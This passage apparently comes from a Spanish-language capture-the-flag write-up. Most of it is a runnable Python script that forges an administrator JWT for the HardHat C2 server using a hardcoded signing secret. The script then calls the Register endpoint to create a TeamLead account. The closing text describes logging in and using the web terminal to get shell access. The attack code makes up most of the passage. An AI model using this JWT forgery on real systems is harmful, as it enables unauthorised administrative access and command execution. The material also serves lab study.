 rhost = '127.0.0.1:5000'

# Craft Admin JWT
secret = "jtee43gt-6543-2iur-9422-83r5w27hgzaq"
issuer = "hardhatc2.com"
now = datetime.datetime.utcnow()

expiration = now + datetime.timedelta(days=28)
payload = {
"sub": "HardHat_Admin",
"jti": str(uuid.uuid4()),
"http://schemas.xmlsoap.org/ws/2005/05/identity/claims/nameidentifier": "1",
"iss": issuer,
"aud": issuer,
"iat": int(now.timestamp()),
"exp": int(expiration.timestamp()),
"http://schemas.microsoft.com/ws/2008/06/identity/claims/role": "Administrator"
}

token = jwt.encode(payload, secret, algorithm="HS256")
print("Generated JWT:")
print(token)

# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
"Authorization": f"Bearer {token}",
"Content-Type": "application/json"
}
burp0_json = {
"password": "pfapostol1",
"role": "TeamLead",
"username": "pfapostol1"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
</code></pre>
<p>Ingrese las credenciales a continuación
. Nombre de usuario: pfapostol1
. Contraseña: pfapostol1 </p>
<p>Ahora podrás iniciar sesión en el sitio web.</p>
<img src="https://github.com/xKoutax/xkoutax/blob/master/assets/images/Captura%20de%20pantalla%202025-02-24%20225158.png?raw=true" alt="Captura de pantalla">
<p>Navega hasta la opción de terminal y ejecuta sergej, luego ejecuta la misma shell que usamos antes y con esto tendremos acceso</p>